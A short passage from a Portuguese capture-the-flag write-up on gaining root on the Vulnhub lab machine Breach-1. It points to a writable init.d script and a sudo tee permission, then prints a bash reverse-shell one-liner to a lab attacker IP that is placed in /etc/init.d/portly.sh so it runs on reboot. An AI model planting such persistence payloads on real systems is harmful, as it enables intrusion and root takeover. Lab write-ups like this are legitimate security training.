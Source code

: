 ![](/assets/img/Vulnhub/Breach-1/linpeas-initd-write.png)

> - Conseguimos executar comando com sudo: **/usr/bin/tee /usr/share/cleanup/tidyup.sh**

![](/assets/img/Vulnhub/Breach-1/linpeas-sudo-l.png)


* Podemos escolher qual linha de acao tomar para escalar privilegio...


### /etc/init.d/portly.sh

* Adicionamos o nosso shell code no arquivo que esta no init.d que temos permissao de escrita 

```bash
/bin/bash -i >& /dev/tcp/192.168.110.3/4433 0>&1
```

![](/assets/img/Vulnhub/Breach-1/initd-priv.png)



* Agora e so deixar a porta escutando na kali e reiniciar a maquina alvo que conseguiremos o nosso shell de root!

![](/assets/img/Vulnhub/Breach-1/root.png)


* **PRONTO, AGORA SOMOS ROOT!**
